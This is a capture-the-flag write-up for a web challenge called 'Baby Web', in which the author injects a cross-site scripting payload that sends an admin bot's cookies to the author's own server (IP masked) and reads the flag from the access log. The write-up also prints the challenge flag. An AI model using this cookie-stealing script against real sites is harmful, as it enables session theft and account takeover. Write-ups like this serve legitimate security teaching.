



# CTF Challenge Writeup: Baby Web

## Challenge Information

- **Name:** Baby Web
- **Category:** Web
- **Points:** 50
- **Description:** This website seems to have an issue. Let's report it to the admins.
- **Files:** [dist.zip](files/babyweb-dist.zip)



## Challenge Analysis

The description hints towards a CSRF or XSS attack vector.

## Solution

### Step 1: Enumeration

The web page is fairly simple, no fuzzing/crawling/spidering is needed:



It states that admins with **special cookies** will look at each submission, if these cookies are misconfigured we might be able to exfiltrate them with a XSS attack.

### Step 2: Design and Inject JavaScript

I've used the easiest XSS trick in the book, URL encode all the cookies and send them to my own server via a GET request in an image:
```javascript
<script>
        var i = new Image();
        i.src = "http://XXX.XXX.XXX.XXX/?exfil=" + escape(document.cookie);
</script>
```


### Step 3: Get the cookie from my `access.log`



The cookie is the flag, no further steps required!

## Flag

`grey{b4by_x55_347cbd01cbc74d13054b20f55ea6a42c}`

## Conclusion

Don't forget the KISS principle!
Keep It Simple Stupid!

## Writeup Author

- Twitter: [@Cyber8RU7U5](https://twitter.com/Cyber8RU7U5)
- GitHub: [Cyber8RU7U5](https://github.com/Cyber8RU7U5)

